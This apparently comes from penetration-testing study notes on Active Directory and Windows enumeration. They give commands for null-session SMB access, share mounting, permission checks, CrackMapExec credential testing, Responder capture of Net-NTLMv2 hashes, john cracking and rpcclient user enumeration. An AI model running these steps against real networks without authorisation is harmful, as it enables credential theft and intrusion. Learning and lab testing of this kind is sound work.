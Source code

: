 # Active Directory & Windows Machines {-}

## Interesting Windows ports {-}

- 88 Kerberos
- 139 NetBIOS session service
- 445 Server Message Block **SMB**
- 389 LDAP
- 1433 ms-sql
- 5985-5986 WinRM

> [!] NOTE: NetBIOS session service facilitates authentication aross a windows workgroup or domain and provides access to resources (such as files and printers) 

## Map SAMBA exposed shared resources with smbmap {-}

```bash
smbmap -H 10.10.10.10 -u " " -p " "
```

## SMB connection with smbclient and smbmap {-}

**smbclient** is a tool that allows attacker to enumerate and list the shared resources of a machine that have the smb service on. 
You can start by using smbclient with a Null session by using the `-N` argument

```bash
smbclient -L 10.10.10.10 -N
```

As soon as you have listed those resources you can use **smbmap** to check the access, read or write rights that you have. You can also
specify the Null session by using the `-u 'null'` argument

```bash
smbmap -H 10.10.10.10 -u 'null'
```

As soon as you find a resource that you can access, you can use **smbclient** to connect to it. Again you can use the `-N` argument to tell
smbclient that you want to connect without asking for credentials.

```bash
smbclient //10.10.10.10/<Accessible resource>
```

> [!] NOTE: smbclient don't provide you a shell but a tool. **get filename.txt** allows you to download a resource if you are connected

If you see that you have access to the desired resource, you can mount the shared directory to your attacker machine.

```bash
mkdir /mnt/smbvictim
mount -t cifs "//10.10.10.10/<Accessible resource>" /mnt/smbvictim
```

> [!] NOTE: A mounted partition is not a download of victim folders and file. That's only an access pass. Type `unmount /mnt/smbmounted` to close the
> mounted share. 

One interesting point with smb is that there is some specified rights at the smb level that can varied. That means that it's not because the
shared resource is on READ ONLY mode that all the folders that this resource contains can not have a write right. You can check if some repository of 
this resource are writable with the **smbcacls** tool. The interesting right that we want to check is the Everyone.

```bash
smbcacls "10.10.10.10/<Accessible resource>" Users/amanda -N
```
The output will look as following:

```r
knitr::include_graphics("images/cacls-read.png")
```

It's interesting to mount the resource in the attacker machine because can do a one liner loop to check multiple folders rights filtering the information
by the Everyone key word.

```bash
cd /mnt/smbvictim/Users
ls -l | awk 'NF{print $NF}' | while read directory; do echo -e "\n[+] Directory $directory; smbcacls "10.10.10.10/<Accessible resource>" Users/$directory -N | grep -i everyone ; done
```

If you find a directory that have writable rights, something that can be intersting to check is that if you create a file in it, is somebody 
manipulating it (remove it, writing on it, removing his content etc.). If it's the case, attacker have a way of stolling the hash NTLMv2 with
malicious **scf** file

## Enumerate machines and check user validity by SAMBA with CME {-}

**CrackMapExec** (a.k.a **CME**) is a post-exploitation tool that helps automate assessing the security of large Active Directory networks.

```bash
cme smb 192.168.0.0/24
```

**CME** can also enumerate a single machine,

```bash
cme smb 10.10.10.10
```

If we have credentials of a user, you can use **CME** to check the validity of a user. If the user with the password exists, the tool will 
write a red plus sign, if not, a minus sign. And if the user exists and this one have admin priviledges on machines, **CrackMapExec** will 
return a red plus sign and you will see a (Pwn3d!) in the result.

```bash
cme smb 10.10.10.10 -u 'user' -p 'password1'
```

## Sniffing traffic for SAMBA Relay with responder {-}

When SAMBA is created, by default SAMBA cert is not signed. That means that by default it's not possible to validate the origin legitimity. 
In this case Attacker can use tools like responder in order to sniff SAMBA communication traffic.

```bash
cd /usr/share/responder
# config file is in Responder.conf
python3 Responder.py -I eth0 -rdw
```

As soon as a connection is launched, you can see the communication. And because the SAMBA is not signed you can then get the **Hash Net-NTLMv2** of users.

```r
knitr::include_graphics("images/ad-hashnetntlmv2.png")
```

What attacker can do with this hash?

1. copy hashes in a file (*hashes*)
1. bruteforce hashes file with john
    ```bash
    john --wordlist=/usr/share/wordlists/rockyou.txt hashes
    ```

## RPC connection with rpcclient {-}

**Remote Procedure Call** aka **RPC** is a network protocol that allows to make calls of precedures on an external computer with an 
application server. This protocol is used in a client-server model in order to ensure the communication between the client, the server and
between possible intermediaries.

In the enumeration phase, attacker can check if it's possible to connect with a null session using the **rpcclient** with the `-U ""` arguments

```bash
rpcclient -U "" 10.10.10.10 -N
```

The connection with a valid user will be done as following

```bash
rpcclient -U "user%password" 10.10.10.10 -c <command>
```

Interesting command to execute with rpcclient are:

```bash
rpcclient -U "user%password" 10.10.10.10 -c 'enumdomusers'
rpcclient -U "user%password" 10.10.10.10 -c 'enumdomgroups'
# get the rid of domain admins -> 0x200 in this example
rpcclient -U "user%password" 10.10.10.10 -c 'querygroupmem 0x200'
# get the rid of the users -> 0x1f4 for example
rpcclient -U "user%password" 10.10.10.10 -c 'queryuser 0x1f4'


```

## Enumerate ldap service with nmap {-}

```bash
locate .nse | grep "ldap"
```

```bash
nmap --script ldap\* 10.10.10.10 -oN ldapScan
```